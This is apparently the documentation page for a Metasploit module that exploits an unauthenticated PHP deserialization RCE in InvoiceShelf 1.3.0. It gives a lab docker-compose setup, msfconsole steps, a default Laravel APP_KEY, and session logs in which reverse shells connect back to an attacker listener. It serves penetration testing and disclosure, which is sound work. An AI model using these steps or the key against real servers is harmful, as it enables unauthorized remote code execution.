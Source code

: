 ## Vulnerable Application
InvoiceShelf is an open-source web & mobile app that helps you track expenses, payments, create professional
invoices & estimates and is based on the PHP framework Laravel.
InvoiceShelf has a Remote Code Execution vulnerability that allows remote unauthenticated attackers to conduct
PHP deserialization attacks. This is possible when the `SESSION_DRIVER=cookie` option is set on the default
InvoiceShelf .env file meaning that any session will be stored as a ciphered value inside a cookie.
These sessions are made from a specially crafted JSON containing serialized data which is then ciphered using
Laravel's encrypt() function.
An attacker in possession of the `APP_KEY` would therefore be able to retrieve the cookie, uncipher it and modify
the serialized data in order to get arbitrary deserialization on the affected server, allowing them to achieve
remote command execution. InvoiceShelf version `1.3.0` and lower is vulnerable.
As it allows remote code execution, adversaries could exploit this flaw to execute arbitrary commands,
potentially resulting in complete system compromise, data exfiltration, or unauthorized access
to sensitive information.

The following release was tested.
* InvoiceShelf `1.3.0` on Docker

## Installation steps to install InvoiceShelf on Docker
* Follow the instructions [here](https://docs.invoiceshelf.com/installation.html) for docker or manual install.
* Please ensure that `SESSION_DRIVER=cookie` is set to cookie.
* cp `.env.example` to `.env` and note down the `APP_KEY` setting.
* To make life easy, use the `docker-compose.yml` below to install a vulnerable InvoiceShell on Docker.
```
 #-------------------------------------------
 # InvoiceShelf MySQL docker-compose variant
 # Repo : https://github.com/InvoiceShelf/docker
 #-------------------------------------------

services:
  invoiceshelf_db:
    container_name: invoiceshelf_db
    image: mariadb:10
    environment:
      - MYSQL_DATABASE=invoiceshelf
      - MYSQL_USER=invoiceshelf
      - MYSQL_PASSWORD=Passw0rd
      - MARIADB_ALLOW_EMPTY_ROOT_PASSWORD=true
    expose:
      - 3306
    volumes:
      - mysql:/var/lib/mysql
    networks:
      - invoiceshelf
    restart: unless-stopped
    healthcheck:
      test: ["CMD", "mariadb-admin" ,"ping", "-h", "localhost"]
      timeout: 20s
      retries: 10

  invoiceshelf:
    image: invoiceshelf/invoiceshelf:1.3.0
    container_name: invoiceshelf
    ports:
      - 90:80
    volumes:
      - ./invoiceshelf_mysql/data:/data
      - ./invoiceshelf_mysql/conf:/conf
    networks:
      - invoiceshelf
    environment:
      # PHP timezone e.g. PHP_TZ=America/New_York
      - PHP_TZ=UTC
      - TIMEZONE=UTC
      - APP_NAME=Laravel
      - APP_ENV=local
      - APP_DEBUG=true
      - APP_URL=http://localhost:90
      - DB_CONNECTION=mysql
      - DB_HOST=invoiceshelf_db
      - DB_PORT=3306
      - DB_DATABASE=invoiceshelf
      - DB_USERNAME=invoiceshelf
      - DB_PASSWORD=Passw0rd
      - DB_PASSWORD_FILE=
      - CACHE_STORE=file
      - SESSION_DRIVER=cookie
      - SESSION_LIFETIME=1440
      - SESSION_ENCRYPT=false
      - SESSION_PATH=/
      - SESSION_DOMAIN=localhost
      - SANCTUM_STATEFUL_DOMAINS=localhost:90
      - STARTUP_DELAY=
      #- MAIL_DRIVER=smtp
      #- MAIL_HOST=smtp.mailtrap.io
      #- MAIL_PORT=2525
      #- MAIL_USERNAME=null
      #- MAIL_PASSWORD=null
      #- MAIL_PASSWORD_FILE=<filename>
      #- MAIL_ENCRYPTION=null
    restart: unless-stopped
    depends_on:
      - invoiceshelf_db

networks:
  invoiceshelf:

volumes:
  mysql:
```
* Execute `docker-compose up -d`
* You can access the InvoiceShelf application at http://localhost:90

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/invoiceshelf_unauth_rce_cve_2024_55556`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <attacker-ip>`
- [ ] `set target <0=PHP Command, 1=Unix/Linux Command>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings

## Options
### APP_KEY
This option is required if the BRUTE_FORCE option is not used.
It is the Laravel APP_KEY with a default key: `base64:kgk/4DW1vEVy7aEvet5FPp5un6PIGe/so8H0mvoUtW0=`.

### BRUTEFORCE
This option is optional and is a text file with a list of APP_KEYs, one per line for a bruteforce attack.

## Scenarios
### InvoiceShelf 1.3.0 on Docker -  PHP Command target
Attack scenario: use the default Laravel APP_KEY preset in the option APP_KEY.
```msf
msf exploit(linux/http/invoiceshelf_unauth_rce_cve_2024_55556) > set rhosts 192.168.201.21
rhosts => 192.168.201.21
msf exploit(linux/http/invoiceshelf_unauth_rce_cve_2024_55556) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf exploit(linux/http/invoiceshelf_unauth_rce_cve_2024_55556) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.21:90 can be exploited.
[+] The target appears to be vulnerable. InvoiceShelf 1.3.0
[*] Lets check if the APP_KEY(s) is/are valid by decrypting the cookie.
[*] Grabbing the cookies.
[+] APP_KEY is valid: base64:kgk/4DW1vEVy7aEvet5FPp5un6PIGe/so8H0mvoUtW0=
[+] Unciphered value: f80a79e26a4e80e6829ca82e9323f17dcbf8226b|{"data":"a:3:{s:6:\"_token\";s:40:\"4Fgr0aT0N85gxRmu4PoVqPzHU7XOH23NCrivJO9x\";s:9:\"_previous\";a:1:{s:3:\"url\";s:40:\"http:\/\/192.168.201.21:90\/login?%2Flogin=\";}s:6:\"_flash\";a:2:{s:3:\"old\";a:0:{}s:3:\"new\";a:0:{}}}","expires":1741454360}
[*] Generate an encrypted serialized cookie payload with our cracked APP_KEY.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (40004 bytes) to 192.168.201.21
[*] Meterpreter session 2 opened (192.168.201.8:4444 -> 192.168.201.21:54194) at 2025-03-07 17:19:21 +0000

meterpreter > getuid
Server username: www-data
meterpreter > pwd
/var/www/html/InvoiceShelf/public
meterpreter > sysinfo
Computer    : 72fe563832ca
OS          : Linux 72fe563832ca 6.12.5-linuxkit #1 SMP PREEMPT_DYNAMIC Tue Jan 21 10:25:35 UTC 2025 x86_64
Meterpreter : php/linux
meterpreter >
```
###  InvoiceShelf 1.3.0 on Docker - Unix/Linux Command target
Attack scenario: use the BRUTEFORCE option with a list of APP_KEYS in a text file.
```msf
msf exploit(linux/http/invoiceshelf_unauth_rce_cve_2024_55556) > set target 1
target => 1
msf exploit(linux/http/invoiceshelf_unauth_rce_cve_2024_55556) > set BRUTEFORCE /root/laravel-crypto-killer/wordlists/crater.txt
BRUTEFORCE => /root/laravel-crypto-killer/wordlists/crater.txt
msf exploit(linux/http/invoiceshelf_unauth_rce_cve_2024_55556) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.21:90 can be exploited.
[+] The target appears to be vulnerable. InvoiceShelf 1.3.0
[*] Lets check if the APP_KEY(s) is/are valid by decrypting the cookie.
[*] Grabbing the cookies.
[*] Starting bruteforce decryption with APP_KEYS listed in /root/laravel-crypto-killer/wordlists/crater.txt.
[+] APP_KEY is valid: base64:kgk/4DW1vEVy7aEvet5FPp5un6PIGe/so8H0mvoUtW0=
[+] Unciphered value: ce0776f8682b66a8407e6a3d62622642ec8fc685|{"data":"a:3:{s:6:\"_token\";s:40:\"Q2zYE5unWqTpdLwFwqgKxBVubiDI95ceLObsbXXV\";s:9:\"_previous\";a:1:{s:3:\"url\";s:40:\"http:\/\/192.168.201.21:90\/login?%2Flogin=\";}s:6:\"_flash\";a:2:{s:3:\"old\";a:0:{}s:3:\"new\";a:0:{}}}","expires":1741454687}
[*] Generate an encrypted serialized cookie payload with our cracked APP_KEY.
[*] Executing Unix/Linux Command for cmd/unix/reverse_bash
[*] Command shell session 3 opened (192.168.201.8:4444 -> 192.168.201.21:54229) at 2025-03-07 17:24:53 +0000

id
uid=33(www-data) gid=33(www-data) groups=33(www-data),1000(invoiceshelf)
uname -a
Linux 72fe563832ca 6.12.5-linuxkit #1 SMP PREEMPT_DYNAMIC Tue Jan 21 10:25:35 UTC 2025 x86_64 GNU/Linux
pwd
/var/www/html/InvoiceShelf/public
```

## Limitations
No limitations.
